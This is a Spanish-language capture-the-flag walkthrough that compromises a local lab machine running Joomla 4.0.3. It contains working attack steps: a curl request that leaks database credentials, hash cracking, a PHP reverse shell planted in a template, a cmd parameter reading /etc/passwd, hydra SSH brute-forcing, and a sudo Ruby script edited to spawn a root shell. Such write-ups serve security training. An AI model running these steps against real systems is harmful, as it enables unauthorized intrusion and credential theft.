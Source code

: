 nmap: 22,80 3306

![image](https://github.com/user-attachments/assets/127b255b-eead-405d-ae0f-217aa3fc6a6b)

---

en la pagina principal hay un apache2 ubuntu, nada interesante tampoco en el código fuente

hacemos un gobuster:

       - # gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,html,txt -k

y nos da:

![image](https://github.com/user-attachments/assets/c5162c38-f072-4037-a84a-e6493cb0bd95)

entramos y tenemos pagina

![image](https://github.com/user-attachments/assets/962bf906-35fe-4292-8422-d8fd1704ad92)

en la pagina encontré esto interesante

![image](https://github.com/user-attachments/assets/5c7ed55c-e58f-4781-8a1a-d152f4d59ceb)

*buscar posible explotación:  Joomla 4.0.3*

> exploit encontrado: https://vulncheck.com/blog/joomla-for-rce

![image](https://github.com/user-attachments/assets/50675612-80c8-4071-b29a-581309090f31)

utilizamos joomscan (JoomScan es una herramienta de escaneo de vulnerabilidades diseñada específicamente para aplicaciones web basadas en Joomla. Sirve para identificar posibles vulnerabilidades y debilidades en sitios web que utilizan este popular sistema de gestión de contenido (CMS):

       - joomscan -u http://172.17.0.2/wordpress/

nos da:

![image](https://github.com/user-attachments/assets/61314e6d-2a8b-4e5e-abe1-3f65103725a2)

entramos a los dos de robots.txt y administrador

![[robots.png]]

![[dockerlabs/dificil/vulnerame/admin.png]]

buscando también me llamo la atención esto

![[joomla version.png]]

hasta que encontré este comando

     curl -v http://172.17.0.2/wordpress/api/index.php/v1/config/application?public=true

y me dio las credenciales

![[usuarios.png]]


usuario: joomla_user
contraseña: vuln

probé en el login que teníamos en administrator, pero no funciono así que probé con la base de datos  


revisamos una posible base de datos con los usuarios encontrados:

      - mysql -h 172.17.0.2 -u joomla_user -pvuln

entramos a "mysql none":

     show databases; 

![[database.png]]

    use joomla_db
    show tables

![[show1.png]]


    select * from ffsnq_users;

nos da una contraseña encriptada:

![[pass1.png]]


utilizamos: https://hashes.com/en/decrypt/hash

       - $2y$10$UVmUci/wKgu7LFir7KIzP.NDup3lYDUxPzz7WZryvEYVdUjUVhou.
       - contraseña: bcrypt

creamos un archivo con la contraseña encriptada llamado "hash.txt"

en el terminal:
      
    hashcat -m 3200 hast.txt /usr/share/wordlists/rockyou.txt
    
nos da otra contraseña: 14344392
también nos da posible contraseña: tequieromucho

credenciales para admin:

      - firstatack
      - tequieromucho

vamos al login e ingresamos

![[dockerlabs/dificil/vulnerame/panel1.png]]

luego buscando en la pagina como admin vamos a:

> system > site templates > click en la pagina > index.php y cargamos un código php 

para conectarnos: https://github.com/pentestmonkey/php-reverse-shell
cambiamos IP y puerto: lo guardamos y en otra pestaña abrimos con la IP de la pagina mientras tenemos en escucha nuestro puerto 443, y entramos.
![[dockerlabs/dificil/vulnerame/conexion.png]]

luego de cargar en index.php la reverse la cargamos en el URL con el terminal en escucha

> http://172.17.0.2/wordpress/index.php?cmd=cat%20/etc/passwd

hacemos tratamiento de stty y buscamos como escalar.

dentro hay dos usuarios: guadalupe e ignacio y hacemos un ataque de fuerza bruta:

     hydra -l ignacio -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

     hydra -l guadalupe -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

![[dockerlabs/dificil/vulnerame/hydra.png]]

y tenemos la contraseña de ambos usuarios. con el que podemos escalar es con ignacio

![[dockerlabs/dificil/vulnerame/sudo -l.png]]

ya dentro del usuario Ignacio podemos ejecutar los "nano" así que modificamos el archivo "saludos.rb": 


      sudo /usr/bin/saludos.rb

         - exec "/bin/sh"
         - system "/bin/sh"

ejecutamos 

     sudo /usr/bin/ruby /usr/bin/saludos.rb

![[dockerlabs/dificil/vulnerame/root.png]]

y somos root! 
